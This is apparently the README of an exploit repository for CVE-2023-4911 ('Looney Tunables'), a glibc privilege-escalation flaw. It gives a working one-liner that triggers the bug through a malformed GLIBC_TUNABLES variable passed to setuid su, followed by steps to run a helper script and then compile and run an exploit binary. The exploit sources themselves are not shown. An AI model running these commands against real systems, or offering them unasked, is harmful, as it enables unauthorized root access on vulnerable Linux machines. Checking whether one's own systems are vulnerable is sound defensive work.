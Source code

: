 ### Step 1
Check if a machine is vulnerable to Looney Tunables CVE-2023-4911
```
ldd --version
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

If we get a `Segmentation fault (core dumped)`, then machine is vulnerable.

### Step 2
```
python3 libc.py
```

### Step 3
```
gcc -o exp exp.c
./exp
```
